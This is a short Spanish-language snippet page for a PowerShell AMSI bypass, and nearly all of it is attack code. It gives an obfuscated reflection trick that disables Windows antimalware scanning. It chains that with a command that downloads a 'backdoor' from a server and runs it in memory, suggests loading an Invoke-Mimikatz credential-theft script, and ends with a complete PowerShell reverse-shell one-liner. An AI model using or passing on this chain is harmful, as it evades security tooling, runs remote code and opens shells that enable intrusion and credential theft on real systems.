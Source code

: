 # Amsi Bypass Powershell #

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true)
```

# Ejemeplo de uso:

Guardar en un archivo, este script de Mimikatz del este repo:
https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/Invoke-Mimikatz.ps1

Abres un servidor con Python o Apache y guardas el archivo con cualquier formato hasta en Webhost/Pastebin/Github etc, cualquier servidor con formato Raw

# Ejemplo:

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true); IEX (curl http://192.168.0.7/backdoor)
```

Con lo anterior Bypasseas amsi y haces una descarga del codigo del servidor y lo ejecutas en memoria

Tambien puedes guardar una reverse shell en el servidor

# Ejemplo:

```
$client = New-Object System.Net.Sockets.TCPClient("ip",puerto);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

